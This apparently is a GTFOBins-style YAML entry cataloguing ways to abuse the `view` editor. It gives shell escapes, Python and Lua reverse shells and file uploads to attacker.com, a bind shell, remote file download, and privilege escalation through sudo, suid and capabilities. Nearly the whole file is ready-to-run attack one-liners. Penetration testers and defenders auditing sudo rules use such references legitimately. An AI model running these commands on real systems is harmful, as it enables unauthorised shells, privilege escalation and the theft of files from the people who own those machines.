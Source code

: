 ```yaml
---
functions:
  shell:
    - code: view -c ':!/bin/sh'
    - code: |
        view
        :set shell=/bin/sh
        :shell
    - description: This requires that `view` is compiled with Python support. Prepend `:py3` for Python 3.
      code: view -c ':py import os; os.execl("/bin/sh", "sh", "-c", "reset; exec sh")'
    - description: This requires that `view` is compiled with Lua support.
      code: view -c ':lua os.execute("reset; exec sh")'
  reverse-shell:
    - description: This requires that `view` is compiled with Python support. Prepend `:py3` for Python 3. Run ``socat file:`tty`,raw,echo=0 tcp-listen:12345`` on the attacker box to receive the shell.
      code: |
        export RHOST=attacker.com
        export RPORT=12345
        view -c ':py import vim,sys,socket,os,pty;s=socket.socket()
        s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))))
        [os.dup2(s.fileno(),fd) for fd in (0,1,2)]
        pty.spawn("/bin/sh")
        vim.command(":q!")'
  non-interactive-reverse-shell:
    - description: Run ``nc -l -p 12345`` on the attacker box to receive the shell. This requires that `view` is compiled with Lua support and that `lua-socket` is installed.
      code: |
        export RHOST=attacker.com
        export RPORT=12345
        view -c ':lua local s=require("socket"); local t=assert(s.tcp());
          t:connect(os.getenv("RHOST"),os.getenv("RPORT"));
          while true do
            local r,x=t:receive();local f=assert(io.popen(r,"r"));
            local b=assert(f:read("*a"));t:send(b);
          end;
          f:close();t:close();'
  non-interactive-bind-shell:
    - description: Run `nc target.com 12345` on the attacker box to connect to the shell. This requires that `view` is compiled with Lua support and that `lua-socket` is installed.
      code: |
        export LPORT=12345
        view -c ':lua local k=require("socket");
          local s=assert(k.bind("*",os.getenv("LPORT")));
          local c=s:accept();
          while true do
            local r,x=c:receive();local f=assert(io.popen(r,"r"));
            local b=assert(f:read("*a"));c:send(b);
          end;c:close();f:close();'
  file-upload:
    - description: This requires that `view` is compiled with Python support. Prepend `:py3` for Python 3. Send local file via "d" parameter of a HTTP POST request. Run an HTTP service on the attacker box to collect the file.
      code: |
        export URL=http://attacker.com/
        export LFILE=file_to_send
        view -c ':py import vim,sys; from os import environ as e
        if sys.version_info.major == 3: import urllib.request as r, urllib.parse as u
        else: import urllib as u, urllib2 as r
        r.urlopen(e["URL"], bytes(u.urlencode({"d":open(e["LFILE"]).read()}).encode()))
        vim.command(":q!")'
    - description: This requires that `view` is compiled with Python support. Prepend `:py3` for Python 3. Serve files in the local folder running an HTTP server.
      code: |
        export LPORT=8888
        view -c ':py import vim,sys; from os import environ as e
        if sys.version_info.major == 3: import http.server as s, socketserver as ss
        else: import SimpleHTTPServer as s, SocketServer as ss
        ss.TCPServer(("", int(e["LPORT"])), s.SimpleHTTPRequestHandler).serve_forever()
        vim.command(":q!")'
    - description: Send a local file via TCP. Run `nc -l -p 12345 > "file_to_save"` on the attacker box to collect the file. This requires that `view` is compiled with Lua support and that `lua-socket` is installed.
      code: |
        export RHOST=attacker.com
        export RPORT=12345
        export LFILE=file_to_send
        view -c ':lua local f=io.open(os.getenv("LFILE"), 'rb')
          local d=f:read("*a")
          io.close(f);
          local s=require("socket");
          local t=assert(s.tcp());
          t:connect(os.getenv("RHOST"),os.getenv("RPORT"));
          t:send(d);
          t:close();'
  file-download:
    - description: This requires that `view` is compiled with Python support. Prepend `:py3` for Python 3. Fetch a remote file via HTTP GET request.
      code: |
        export URL=http://attacker.com/file_to_get
        export LFILE=file_to_save
        view -c ':py import vim,sys; from os import environ as e
        if sys.version_info.major == 3: import urllib.request as r
        else: import urllib as r
        r.urlretrieve(e["URL"], e["LFILE"])
        vim.command(":q!")'
    - description: Fetch a remote file via TCP. Run `nc target.com 12345 < "file_to_send"` on the attacker box to send the file. This requires that `view` is compiled with Lua support and that `lua-socket` is installed.
      code: |
        export LPORT=12345
        export LFILE=file_to_save
        view -c ':lua local k=require("socket");
          local s=assert(k.bind("*",os.getenv("LPORT")));
          local c=s:accept();
          local d,x=c:receive("*a");
          c:close();
          local f=io.open(os.getenv("LFILE"), "wb");
          f:write(d);
          io.close(f);'
  file-write:
    - code: |
        view file_to_write
        iDATA
        ^[
        w!
  file-read:
    - code: view file_to_read
  library-load:
    - description: This requires that `view` is compiled with Python support. Prepend `:py3` for Python 3.
      code: view -c ':py import vim; from ctypes import cdll; cdll.LoadLibrary("lib.so"); vim.command(":q!")'
  suid:
    - description: This requires that `view` is compiled with Python support. Prepend `:py3` for Python 3.
      code: ./view -c ':py import os; os.execl("/bin/sh", "sh", "-pc", "reset; exec sh -p")'
  sudo:
    - code: sudo view -c ':!/bin/sh'
    - description: This requires that `view` is compiled with Python support. Prepend `:py3` for Python 3.
      code: sudo view -c ':py import os; os.execl("/bin/sh", "sh", "-c", "reset; exec sh")'
    - description: This requires that `view` is compiled with Lua support.
      code: sudo view -c ':lua os.execute("reset; exec sh")'
  capabilities:
    - description: This requires that `view` is compiled with Python support. Prepend `:py3` for Python 3.
      code: ./view -c ':py import os; os.setuid(0); os.execl("/bin/sh", "sh", "-c", "reset; exec sh")'
  limited-suid:
    - description: This requires that `view` is compiled with Lua support.
      code: ./view -c ':lua os.execute("reset; exec sh")'
---
```

